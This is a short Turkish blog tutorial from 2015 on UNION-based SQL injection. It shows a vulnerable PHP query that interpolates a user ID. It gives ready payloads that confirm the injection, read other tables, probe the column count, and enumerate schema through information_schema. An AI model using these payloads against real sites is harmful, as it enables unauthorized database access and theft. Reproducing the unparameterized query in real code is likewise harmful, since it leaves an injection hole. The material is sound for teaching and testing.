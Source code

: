 ```yaml
---
ID: 239
post_title: Union SQL injection
author:
  - farukcan
post_date:
  - 2015-08-12 10:09:49
post_excerpt:
  - ""
layout: post
permalink:
  - ""
published: true
dsq_thread_id:
  - "4135047264"
---
```


SQL injection açığı bulunan bir sitede , union komutu kullanılarak, diğer tablolardanda bilgi alma biçimidir.

sunucu tarafından şöyle bir açık olduğu varsayılsın
<pre>$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";</pre>
bu durumda
<pre>' OR true #</pre>
ile sql injection olduğundan emin olunur.
<pre>' UNION SELECT * FROM diger_tablo #</pre>
ile diğer tablolara erişibilir.

Fakat şöyle bir sorun çıkabilir : Tabloların kolon sayıların eşit olmaması.
<pre>' OR true UNION SELECT 1,2,3 #</pre>
Biçiminde tek tek deneyerek, mevcut tablonun kolon sayısını elde edebilirsiniz.
<h2>Not</h2>
Eğer tablo isimlerini ve kolonlarını öğrenmek isterseniz. Aşağıdaki sorgularla aynı yöntemi deneyebilirsiniz
<pre><code>select * from information_schema.`TABLES`</code></pre>
<pre><code>select TABLE_NAME from information_schema.`TABLES` </code></pre>
<pre><code>select TABLE_NAME,COLUMN_NAME from information_schema.`COLUMNS`</code></pre>